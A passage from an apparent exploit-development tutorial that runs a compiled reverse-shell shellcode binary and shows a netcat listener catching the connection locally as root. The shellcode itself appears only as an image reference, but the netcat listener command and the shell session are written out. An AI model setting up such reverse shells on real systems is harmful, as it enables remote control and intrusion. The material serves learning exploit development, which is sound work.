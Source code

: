 We then execute our newly compiled shell:

```
root@kali:~/Documents/revshell# ./shell 
Shellcode Length:  113
```

Looking back at our listener, we notice we have the successfully caught our reverse shell and have dropped into an interactive “/bin/sh” process:

```
root@kali:~/Documents/revshell# nc -nlvp 9005
listening on [any] 9005 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 40884
id
uid=0(root) gid=0(root) groups=0(root)
```